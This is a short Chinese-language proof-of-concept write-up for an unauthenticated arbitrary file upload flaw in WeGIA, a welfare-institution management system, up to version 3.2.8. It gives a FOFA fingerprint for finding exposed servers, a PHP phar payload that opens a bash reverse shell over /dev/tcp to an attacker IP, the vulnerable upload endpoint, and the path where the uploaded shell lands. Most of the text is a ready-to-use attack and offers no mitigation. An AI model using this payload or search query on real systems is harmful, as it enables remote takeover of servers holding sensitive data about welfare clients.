 # WeGIA存在前台任意文件上传漏洞

**WeGIA是一个福利机构管理器，并且具有一下几种功能，并且在3.2.8及之前版本都存在前台任意文件上传漏洞，且都可进行直接上传Phar等文件执行任意命令，反弹Shell等操作。**

## fofa

```javascript
"./assets/vendor/select2/select2.js"
```

## poc

phar内容

```php
<?php
$ip = 'IP';
$port = 4444;
system("/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'");
?>

```

将phar文件上传

```javascript
/WeGIA/html/socio/sistema/controller/controla_xlsx.php
```

![image-20250127154942138](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501271549223.png)

上传后，文件在 /WeGIA/html/socio/sistema/tabelas/shell.phar

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501271550801.png)

## 漏洞来源

- https://mp.weixin.qq.com/s/GhaxwVBzJKHf0AucOU6hbw